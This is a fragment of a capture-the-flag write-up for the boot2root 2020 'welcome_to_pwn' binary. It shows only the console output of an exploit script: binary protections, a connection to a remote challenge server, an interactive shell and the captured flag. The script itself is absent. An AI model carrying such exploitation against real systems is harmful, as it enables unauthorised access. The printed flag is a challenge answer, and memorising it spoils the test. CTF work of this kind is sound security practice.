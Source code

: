 # ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/welcome_to_pwn/welcome'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 35.238.225.156 on port 1001: Done
[*] Loaded 14 cached gadgets for './welcome'
[*] Switching to interactive mode
Damn that's it?
$ cat flag
b00t2root{W3lc0m3_T0_Pwn_YjAwdDJyb290JzIw}
